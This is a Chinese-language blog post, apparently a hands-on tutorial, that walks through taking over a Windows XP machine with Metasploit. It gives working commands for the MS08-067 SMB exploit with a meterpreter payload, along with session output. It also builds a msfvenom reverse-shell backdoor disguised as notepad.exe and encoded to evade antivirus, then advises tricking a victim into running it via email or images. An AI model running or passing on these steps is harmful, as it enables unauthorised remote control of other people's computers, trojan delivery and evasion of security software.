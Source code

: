 ```yaml
---
layout: post
title: 演示使用Metasploit入侵Windows
---
```


我使用Kali Linux的IP地址是192.168.0.112；在同一局域网内有一台运行Windows XP（192.168.0.108）的测试电脑。

本文演示怎么使用Metasploit入侵windows xp sp3。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 15-24-25.png)

选择一个漏洞：

{% highlight shell %}
msf > search platform: windows xp sp3 
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-17-46.png)

exploit/windows/smb/ms08_067_netapi是08年发现的漏洞，等级Great。

查看某个漏洞的详细信息；包含使用方法、支持的平台等等，非常有帮助：

{% highlight shell %}
msf > info exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-24-32.png)

依次执行如下命令：

{% highlight shell %}
msf > use exploit/windows/smb/ms08_067_netapi
> set payload windows/meterpreter/bind_tcp
> set RHOST 192.168.0.108  (设置目标主机IP地址)
> exploit
{% endhighlight %}

如果目标主机有这个漏洞的话，你就可以控制它了；如果没有，尝试使用其他漏洞。

```
[*] Started bind handler
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP SP3 - Service Pack 3 - lang:Chinese
[*] Selected Target: Windows XP SP3 Chinese (AlwaysOn NK)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (751104 bytes) to 192.168.0.108
[*] Meterpreter session 1 opened (192.168.0.1:41614 -> 192.168.0.108:4444) at 2016-04-15 17:29:32

meterpreter >
```

现在你就可以控制目标主机了，可以截屏、录音、视频、下载文件、杀进程等等；使用help查看可以执行的命令。

****

## 演示使用后门程序侵入Windows

原理：在Kali Linux上生成后门程序，然后把它发送给受害者，欺骗受害者运行（使用邮件、图片等等）。难点是需要过杀毒软件和防火墙。

生成后门程序：

我把后门程序隐藏到记事本程序中：notepad.exe

查看Kali Linux的IP：ifconfig（192.168.0.112）

创建后门程序，my_backdoor.exe：

{% highlight shell %}
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4445 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > my_backdoor.exe
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 18-24-42.png)

上面命令使用加密试图躲过杀毒软件，但是，不要期望它可以生效。使用man msfvenom查看帮助。

把它发送到Windows系统，并运行；如果不能运行换用其他加密方式。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

```
use exploit/multi/handler

set LHOST 192.168.0.112
set LPORT 4445
set payload windows/meterpreter/reverse_tcp
show options
exploit
```

等待受害者启动后门程序。

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-01-13.png)

OK，入侵成功。

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-08-43.png)

****

[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)

[演示使用Metasploit入侵Android](http://topspeedsnail.com/kali-linux-metasploit-hack-android/)